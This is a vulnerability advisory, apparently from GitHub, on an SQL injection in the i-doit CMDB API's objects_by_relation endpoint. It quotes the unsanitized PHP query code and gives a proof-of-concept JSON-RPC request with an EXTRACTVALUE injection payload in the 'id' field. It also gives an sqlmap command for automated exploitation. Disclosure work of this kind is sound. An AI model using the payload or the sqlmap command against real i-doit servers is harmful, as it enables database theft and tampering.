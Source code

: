 

# CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 8.8 HIGH (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

- **Affected Component:** [I-DOIT](https://www.i-doit.com)  API (cmdb.objects_by_relation.read call)

- **Vulnerability Type:** SQL Injection (SQLi)

- **Impact:** This vulnerability allows malicious actors to execute arbitrary SQL queries, potentially leading to data leakage, data manipulation, or even unauthorized access to sensitive information.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious SQL queries (boolean-based blind, boolean-based blind and time-based blind) and submitting them through the API requests.

- **Affected Versions:** [I-DOIT](https://www.i-doit.com)  > 1.7 (all versions)

- **Details:** The parameter ``` $p_params['id']``` in ``` /var/www/html/src/classes/modules/api/model/cmdb/isys_api_model_cmdb_objects_by_relation.class.php``` is not being sanitized. This means that user-supplied input is being used directly without any form of validation or sanitization, which increases the risk of SQL injection vulnerabilities.
  
  ```php
  public function read($p_params)
    {
        // Prepare return array.
        $l_return = [];

        // Prepare filters.
        $l_raw = (bool)$p_params['raw'];
        $l_id = (isset($p_params['id'])) ? $p_params['id'] : null;
        $l_relation_type = (isset($p_params['relation_type'])) ? $p_params['relation_type'] : null;

        // Validate status
        $this->validateStatus($p_params['status']);

        // Check if relation_type is a string constant.
        if (is_string($l_relation_type) && defined($l_relation_type)) {
            $l_relation_type = constant($l_relation_type);
        }

        if ($this->useAuth) {
            isys_auth_cmdb::instance()
                ->check_rights_obj_and_category(isys_auth::VIEW, $l_id, 'C__CATG__RELATION');
        }

        if (!$l_id) {
            throw new isys_exception_api('No object id given. Specify parameter "id" in order to filter objects by relation.');
        }

        // Start looking for objects.
        $l_dao = new isys_cmdb_dao_category_g_relation($this->m_db);
        $l_data = $l_dao->get_related_objects($l_id, $l_relation_type, $p_params['status']);

        // Iterate through result set.
        while ($l_row = $l_data->get_row()) {
            // Fetch more information about the related object:
            $l_related = $this->m_dao->get_object_by_id($l_row['related'])
                ->get_row();

            $l_row['related_title'] = $l_related['isys_obj__title'];
            $l_row['related_type'] = $l_related['isys_obj_type__id'];
            $l_row['related_type_title'] = $l_related['isys_obj_type__title'];
            $l_row['related_cmdb_status_id'] = $l_related['isys_cmdb_status__id'];
            $l_row['related_cmdb_status_title'] = $l_related['isys_cmdb_status__title'];

            $l_key = $l_row['isys_obj__id'];

            if (!$l_raw) {
                $l_row = $this->format_by_mapping($this->m_mapping, $l_row);
            }

            $l_value = [
                'data'     => $l_row,
                'children' => false
            ];

            $l_return[$l_key] = $l_value;
        }

        return $l_return;
    }
  ```

  This unsanitized input is then passed to the get_related_objects function in ```/var/www/html/src/classes/modules/cmdb/dao/category/global/isys_cmdb_dao_category_g_relation_.class.php```. This function constructs and executes SQL queries using the supplied parameter without proper sanitization or parameterization.

  ```php
  public function get_related_objects($p_parent_object, $p_relation_type = null, $status = null)
    {
        $l_sql = "SELECT
            relation_object.isys_obj__id,
            relation_object.isys_obj__title,
            isys_obj_type__id,
            isys_obj_type__title,
            isys_catg_relation_list__isys_obj__id__master,
            isys_catg_relation_list__isys_obj__id__slave,
            isys_catg_relation_list__isys_obj__id,
            CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "' THEN isys_catg_relation_list__isys_obj__id__slave
            ELSE isys_catg_relation_list__isys_obj__id__master END AS related
            FROM isys_catg_relation_list
            INNER JOIN isys_obj relation_object ON relation_object.isys_obj__id = isys_catg_relation_list__isys_obj__id
            INNER JOIN isys_obj_type ON isys_obj__isys_obj_type__id = isys_obj_type__id";

        // Additional joins for requesting object statuses
        if (!empty($status)) {
            $l_sql .= " INNER JOIN isys_obj relatedObject ON relatedObject.isys_obj__id = CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "'
                                                                                          THEN isys_catg_relation_list__isys_obj__id__slave
                                                                                          ELSE isys_catg_relation_list__isys_obj__id__master END
                        INNER JOIN isys_obj parentObject ON parentObject.isys_obj__id = " . $this->convert_sql_id($p_parent_object);
        }

        $l_sql .= " WHERE (isys_catg_relation_list__isys_obj__id__master = " . $this->convert_sql_id($p_parent_object) . "
                OR isys_catg_relation_list__isys_obj__id__slave = " . $this->convert_sql_id($p_parent_object) . ")";

        if (!is_null($p_relation_type)) {
            if (is_array($p_relation_type)) {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id " . $this->prepare_in_condition($p_relation_type);
            } else {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id = " . $this->convert_sql_id($p_relation_type);
            }
        }

        // Add status condition
        if (!empty($status)) {
            $status = $this->convert_sql_id($status);

            $l_sql .= ' AND (relation_object.isys_obj__status    = ' . $status . ')';
        }

        $l_sql .= " GROUP BY related;";

        return $this->retrieve($l_sql);
    }
  ```

  - **Mitigation:** Immediate action is recommended to address this issue. Implementing input validation and parameterized queries can help mitigate the risk of SQL Injection attacks. Additionally, conducting a thorough security audit of the entire codebase is advised to identify and address any other potential vulnerabilities.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
POST /src/jsonrpc.php HTTP/1.1
Host: 192.168.1.46
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0st75tilh4l5t5mhefj1gvu4om
Connection: close
Content-Type: application/json
Content-Length: 207

}
  "version": "2.0",
  "method": "cmdb.objects_by_relation",
  "params": {
    "status": 2,
    "id": "62' AND EXTRACTVALUE(5216,CONCAT(0x5c,0x717a717a71,(SELECT (ELT(5216=5216,1))),0x7178767171)) AND 'owRH'='owRH",
    "raw": false,
    "apikey": "e5368jggdb4k4s44",
    "language": "en"
  },
  "id": 1
}
```

To automate these process is it possible use ```sqlmap```.

```bash
sqlmap --random-agent --level 5 --risk 3 -r id.req --banner 
```


![image](https://github.com/offensive-security-pwncat/CVE-2024-SQLi/blob/main/photo_2024-02-25%2010.50.16.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the SQL Injection vulnerability in the affected API endpoint.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing SQL Injection vulnerabilities.

